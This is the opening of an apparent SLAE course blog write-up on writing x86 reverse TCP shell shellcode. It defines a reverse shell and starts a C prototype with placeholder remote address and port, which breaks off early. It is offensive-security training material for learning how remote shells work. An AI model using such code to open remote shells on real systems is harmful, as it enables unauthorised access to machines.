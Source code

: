 ```yaml
---
layout: single
title: SLAE Assignment 2 -- TCP Reverse Shell
date: 2019-5-7
classes: wide
header:
  teaser: /assets/images/SLAE/SLAE.jpg
tags:
  - SLAE
  - Linux
  - x86
  - Shellcoding
--- 
```

![](/assets/images/SLAE/SLAE.jpg)

## Introduction

The second SLAE assignment is to develop shellcode for a reverse TCP shell. What is a reverse TCP shell? According to [Infosec Institute](https://resources.infosecinstitute.com/icmp-reverse-shell/#gref), a reverse shell is "a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved."

After spending so much overhead on the last assignment learning how to format socket programming arguments and how to research them, I found this assignment to be much easier. It also helps that over 90% of the code was reused from the last assignment! ***I am not a professional programmer, I apologize for any socket programming concepts I butchered in my explanations.***

## Prototype

The first thing we want to do, in order to see the syscalls required to support the creation of a reverse shell, is find the simplest implementation of a reverse shell in a language higher than assembly. After a bit of googling, the simplest version of a reverse shell in C that I could find is the [following](https://gist.github.com/0xabe-io/916cf3af33d1c0592a90), with my comments added:

```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "XXX.XXX.XXX.XXX"
#define REMOTE_PORT XXX

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;
    //creating our struct
```